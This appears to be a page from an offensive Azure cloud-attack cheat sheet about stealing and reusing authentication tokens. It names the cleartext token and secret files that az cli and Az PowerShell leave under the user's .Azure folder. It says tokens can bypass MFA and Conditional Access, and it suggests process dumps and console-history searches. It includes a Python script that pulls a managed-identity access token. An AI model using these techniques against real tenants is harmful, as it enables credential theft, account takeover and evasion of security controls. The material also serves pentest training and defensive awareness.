 #### List storage accounts

```powershell
az storage account list
```

## Using Azure tokens

* Both Az PowerShell and AzureAD modules allow the use of Access tokens for authentication.

* Usually, tokens contain all the claims (including that for MFA and Conditional Access etc.) so they are useful in bypassing such security controls.
* Office 365 stealer steals a token for the Graph API with the permissions that are registered.
* For managed identities check the IDENTITY_ENDPOINT to see which token it is.
* Can also use <https://jwt.io> or <https://jwt.ms> to see what token it is.
* Which token to use
  * Access Token - Azure Resouces
  * Graph Token - Azure AD
  * Key Vault Token - Keyvault Access

### Stealing tokens

#### Stealing tokens from az cli

* az cli stores access tokens in clear text in ```accessTokens.json``` in the directory ```C:\Users\<username>\.Azure```

* We can read tokens from the file, use them and request new ones too!
* `azureProfile.json` in the same directory contains information about subscriptions.
* You can modify `accessTokens.json` to use access tokens with az cli but better to use with Az PowerShell or the Azure AD module.
* To clear the access tokens, always use az logout

#### Stealing tokens from az powershell

* Az PowerShell stores access tokens in clear text in ```TokenCache.dat``` in the directory ```C:\Users\<username>\.Azure```

* It also stores ServicePrincipalSecret in clear-text in `AzureRmContext.json` if a service principal secret is used to authenticate.
* Another interesting method is to take a process dump of PowerShell and looking for tokens in it!
* Users can save tokens using Save-AzContext, look out for them! Search for `Save-AzContext` in PowerShell console history!
* Always use Disconnect-AzAccount!!

#### Request tokens from the CLI

* Check below for example in using tokens!

### Stealing token scripts

#### Python

```powershell
import os
import json

IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)

val = os.popen(cmd).read()

print("[+] Management API")
print("Access Token: "+json.loads(val)["access_token"])
```
